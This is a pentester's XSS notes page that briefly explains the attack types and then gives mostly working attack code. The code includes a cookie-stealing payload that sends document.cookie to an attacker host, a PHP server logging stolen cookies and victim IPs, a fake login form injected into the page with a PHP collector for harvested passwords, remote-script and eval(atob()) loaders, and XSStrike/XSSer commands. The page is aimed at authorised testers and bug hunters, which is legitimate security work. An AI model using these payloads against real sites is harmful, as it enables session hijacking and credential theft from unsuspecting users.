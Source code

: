 ```yaml
---
title: Cross-Site Scripting (XSS)
author:
  name: kill5witch
  link: https://github.com/an9k0r
date: 2022-09-03 09:00:00 +0200
categories: [Web Application, Cross Site Scripting (XSS)]
tags: [Notes, Web Application, Cross-Site Scripting]
math: true
mermaid: true
image:
  src: 
  width: 694
  height: 515
  alt: image alternative text
---
```

# Basics
Cross-Site Scripting (XSS) is an attack where user controlled input gets executed on the victims client.
There are 3 main types of XSS:
    - Stored XSS (Gets stored in the Backend and usually persists over sessions)
    - Reflected gets passed to the beckend and executes the script on the client
    - DOM gets executed on the client only

XSS could also be blind which means while testing we might not see vulnerability right away. It is something to keep in mind, perhaps use payload which sends an callback to "our"/"testing" server.

Most commonly used JS functions that write to DOM object and where direct users input should be sanitized are:

- document.write()
- DOM.innerHTML
- DOM.outerHTML
- ...

jQuery functions:

- add()
- after()
- append()
- ...

Payload would usualy be formed like this:
```
- <script></script> tag
- JS Event Handlers like <img onload="">
- Using something like: javascript: url
- using eval function
- ...
```

Sometimes Payload needs to escape the intended function, usualy using something like this:

- `'>`
- `">`

Something handy for PenTesters/Bounty Hunters are Polyglot functions which incorporate different bypasses in single payload. Do have a look here: https://github.com/0xsobky/HackVault/wiki/Unleashing-an-Ultimate-XSS-Polyglot



## Cookie Stealer
```javascript
document.location='http://IP/index.php?c='+document.cookie;
new Image().src='http://IP/index.php?c='+document.cookie;
```

### Simple PHP Server that goes along
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

# Scripts
## Phishing HTML Form One-Liner
```javascript
document.write('<h3>Please login to continue</h3><form action=http://IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

### Simple PHP Server to go along
Checking access log or having netcat would also work. Running simple server that logs callbacks is however very neat.
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("credentials.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVERS_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```
Save as php file and run it with `php -S x.x.x.x:PORT`

# More advanced payloads
Script will be loaded remotely
```
s = document.createElement("script")
s.src = "https://IP/payload.js"
document.body.appendChild(s)

fetch("https://IP/payload.js").then(r=>r.text()).then(t=>eval(t))

// either use decode base64 or eval on normal payload.
eval(atob(location.hash.substr(1)))
```

# Tools

## XSSStrike
```shell-session
python3 xsstrike.py -u "http://IP/?fullname=asd&username=asd&password=asd&email=XSS"
```

## XSSer
```
xsser -u http://IP -g "/?fullname=asd&username=asd&password=asd&email=XSS" --auto
```

# References

- https://academy.hackthebox.eu (awesome resource with many great and to-the-point labs.)
- YesWeHack Dojo: https://dojo-yeswehack.com/XSS/Theory
- PortSwigger Web Academy: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet

